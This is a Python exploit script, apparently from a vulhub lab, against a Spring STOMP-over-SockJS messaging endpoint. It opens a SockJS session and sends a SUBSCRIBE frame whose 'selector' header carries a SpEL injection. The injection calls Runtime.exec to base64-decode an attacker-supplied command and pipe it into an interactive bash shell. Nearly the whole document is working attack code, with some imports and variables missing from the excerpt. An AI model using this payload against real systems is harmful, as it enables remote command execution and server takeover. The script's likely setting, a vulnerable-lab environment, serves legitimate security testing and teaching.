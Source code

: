 ```python
def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()

def main():
    sockjs = SockJS(url)
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo," + command.decode('utf-8') + "}|{base64,-d}|{bash,-i}')",
        'id': 'sub-0',
        'destination': subscribe_dest
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': send_dest
    }, data)
```